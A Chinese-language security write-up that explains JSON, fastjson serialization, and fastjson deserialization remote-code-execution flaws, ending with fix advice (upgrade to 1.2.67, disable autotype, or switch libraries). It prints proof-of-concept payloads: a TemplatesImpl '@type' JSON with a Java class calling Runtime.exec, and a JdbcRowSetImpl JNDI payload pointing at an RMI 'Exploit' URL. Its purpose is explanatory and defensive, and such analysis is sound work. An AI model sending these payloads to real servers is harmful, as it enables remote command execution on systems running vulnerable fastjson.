

## 0x00 json是什么
JSON (JavaScript Object Notation) 是一种轻量级的数据交换格式，易于人阅读和编写，同时也易于机器解析和生成。
JSON 构建基于两种结构:
- “名称 值”对的集合
- 值的有序列表
- 结构可以嵌套
- 示例
``` json
{"sites":[
    {"name":"Runoob", "url":"www.runoob.com"}, 
    {"name":"Google", "url":"www.google.com"},
    {"name":"Taobao", "url":"www.taobao.com"}
]}

```
## 0x01 fastjson 是什么
Fastjson是Alibaba开发的Java语言编写的高性能JSON库（https://github.com/alibaba/fastjson） 采用“假定有序快速匹配”的算法，它可以解析JSON格式的字符串，支持将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。Fastjson接口简单易用，广泛使用在缓存序列化、协议交互、Web输出、Android客户端等，目前有2个主要接口toJsonString和parseObject来分别实现序列化和反序列化。

### fastjson反序列化框架

- 在Fastjson反序列化框架中，JSON是门面类，提供一些静态方法，如：parse，parseObject，其主要功能都是在DefaultJSONParser类中实现的。
- DefaultJSONParser引用了ParserConfig类，该类主要保存一些相关配置信息。也引用了JSONLexerBase类用来处理字符分析，序列化用到的是JavaBeanSerializer类，而反序列化用到的是JavaBeanDeserializer类。

### fastjson 如何使用
首先定义一个User.java，代码如下：
``` java
public class User {
    private Long   id;
    private String name;
    public Long getId() {
        return id;
    }
    public void setId(Long id) {
        this.id = id;
    }
    public String getName() {
        return name;
    }
    public void setName(String name) {
        this.name = name;
    }
}
```
序列化的代码如下:
```java
import com.alibaba.fastjson.JSON;
User guestUser = new User();
guestUser.setId(2L);
guestUser.setName("guest");
String jsonString = JSON.toJSONString(guestUser);
System.out.println(jsonString);
```
反序列化的代码示例：
```java
String jsonString = "{\"name\":\"guest\",\"id\":12}";
User user = JSON.parseObject(jsonString, User.class);
```
## 0x02 反序列化可能有什么问题
parseObject()方法在处理过程中，会调用反序列化目标类的所有 setter、getter和is方法。如上User类的例子，其成员字段id和name都有各自get和set的操作，故这些函数都会在反序列化的过程中被调用，以便为类实例的字段赋值。
* 如果这些setter、getter函数（或者类的构造函数）中存在执行命令的操作，是不是就会造成命令执行漏洞？
* 或者系统某些库在实现反序列化时的某些函数（或一些继承的库重写了）存在问题，也可能造成反序列化漏洞。

### fastjson的反序列漏洞
#### fastjson 安全特性
- Feature.SupportNonPublicField 才能打开非公有属性的反序列化处理
- @type 可以指定反序列化任意类，调用其set/get/is方法
#### fastjson 反序列漏洞poc分析
即使打开了autotype配置，也不是所有库都能被利用触发反序列化，因为fastjson库实现checkAutoType 函数以检查需要进行反序列化的库是否在黑名单中，如果是则中断执行。
有研究人员发现通过TemplatesImpl类可以绕过检查且造成反序列化漏洞。poc 简化如下：
```java
final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{ }," +
             "\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n"
Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
```

- TemplatesImpl可以绕过黑名单的检查
- 设置了Feature.SupportNonPublicField，这样`_outputProperties` 字段才会被反序列化，JavaBeanDeserializer.smartMatch()函数会替换掉字段key中的_，从而 _outputProperties和 getOutputProperties() 以成功关联上，即会执行getOutputProperties()函数
- getOutputProperties->newTransformer->getTransletInstance->defineTransletClasses;在defineTransletClasses方法中会根据_bytecodes来生成一个java类，生成的java类随后会被getTransletInstance方法用到生成一个实例
- 若`_bytecodes`是一个编译好的存在命令执行的类呢？如：将如下Test类编译成class，赋值给_bytecodes，在重新生成Test 实例的时候会执行类的构造函数，造成了命令执行。

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {
    }
    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```
实际利用中，即向javaweb服务器(使用了fastjson进行反序列化操作）post 请求一个精心构造好的json串，如：
```json
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["base64encode(evilClassCode)"],'_name':'a.b','_tfactory':{ },"_outputProperties":{ },"_name":"a","_version":"1.0","allowedProtocols":"all"}

```
#### 其他fastjson反序列漏洞poc
如：使用JNDI注入的方式，简单的来说，就是RMI注册的服务可以让JNDI应用程序来访问调用。
> - RMI(Remote Method Invocation)：即Java 远程方法调用，一种用于实现远程过程调用的应用程序编程接口，常见的两种接口实现为 JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)以及 CORBA。
> - JNDI(Java Naming and Directory Interface)：一个应用程序设计的API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口。JNDI 支持的服务主要有以下几种：DNS、LDAP、CORBA 对象服务、RMI 等。

PoC示例：
```json
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}}}
```
- JdbcRowSetImpl是官方自带的库，可以绕过黑名单检查
- 在反序列化过程中调用JdbcRowSetImpl类，在setAutoCommit()会调用connect()函数中会对成员变量dataSourceName进行lookup，成功利用JNDI注入，RMI可以reference到远程web路径的一个evil class obj，造成远程命令执行。

## 0x03 漏洞总结
* 反序列化漏洞存在于许多语言库的实现中，如：著名的2015年Apache Commons Collections 反序列化远程命令执行漏洞。
* JNDI与RMI结合是java类反序列化漏洞利用的常见手段
* Fastjson不启用autotype就没问题；
* 若开启 autotype，虽然Fastjson实现了一套黑名单防护机制，但仍存在被绕过风险

### 修复方案：
#### 方案一
升级fastjson，升级到最新版本1.2.67，关闭autotype https://github.com/alibaba/fastjson/releases/tag/1.2.67

#### 方案二
如非必需情况，强烈建议移除fastjson，如需使用json解析库，建议使用gson或jackson-databind等组件最新版本替换。

## 参考文档
* https://kingx.me/Details-in-FastJson-RCE.html
* https://github.com/alibaba/fastjson/wiki/security_update_20170315
* https://www.freebuf.com/column/216631.html